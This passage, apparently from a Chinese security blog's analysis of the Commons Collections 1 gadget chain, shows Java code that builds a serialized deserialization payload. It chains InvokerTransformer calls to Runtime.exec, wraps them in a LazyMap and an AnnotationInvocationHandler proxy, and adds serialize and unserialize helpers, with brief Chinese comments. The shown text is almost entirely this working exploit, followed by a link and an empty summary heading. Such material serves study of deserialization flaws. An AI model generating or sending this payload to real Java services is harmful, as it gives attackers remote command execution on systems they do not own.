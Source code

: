 ```java
                new ConstantTransformer(Runtime.class),    //Runtime.class的类型是class
                new InvokerTransformer("getMethod"
                        , new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke"
                        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec"
                        , new Class[]{String.class}, new Object[]{args})
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value111", "xxx");
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);

        //使用对象代理
        InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);  //我们需要对 sun.reflect.annotation.AnnotationInvocationHandler 对象进行Proxy。代理后的对象叫做proxyMap，但我们不能直接对其进行序列化，因为我们入口点是 sun.reflect.annotation.AnnotationInvocationHandler#readObject ，所以我们还需要再用 AnnotationInvocationHandler对这个proxyMap进行包裹：
        Object obj =  declaredConstructor.newInstance(Retention.class, proxyMap);  //把代理还是丢进构造器里面
        return obj;

    }

    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(bout);
        objOut.writeObject(obj);
        return bout.toByteArray();
    }
    public static Object unserialize(final byte[] seria) throws Exception{
        ByteArrayInputStream btin = new ByteArrayInputStream(seria);
        ObjectInputStream ois = new ObjectInputStream(btin);
        return ois.readObject();
    }
}

```

https://johnfrod.top/%E5%AE%89%E5%85%A8/commonscollections1%E5%88%A9%E7%94%A8%E9%93%BE%E5%88%86%E6%9E%90/



总结：
